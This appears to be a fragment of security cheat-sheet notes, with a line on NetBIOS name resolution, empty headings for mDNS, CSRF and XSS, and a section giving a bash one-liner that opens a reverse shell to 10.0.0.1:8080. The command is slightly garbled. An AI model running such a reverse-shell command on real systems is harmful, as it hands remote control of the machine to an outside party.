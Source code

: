 - NetBIOS, NBT-NS identifies systems on a local network by their NetBIOS name.

## MultiCast DNS

## Cross-Site Request Forgery (CSRF)

## Cross-Site Scripting (XSS)

## Bash Reverse Shell

- in-some version of bash, it's possible to sent a reverse shell to the machine

        bash -y >& /dev/tcp/10.0.0.1/8080 0>&1
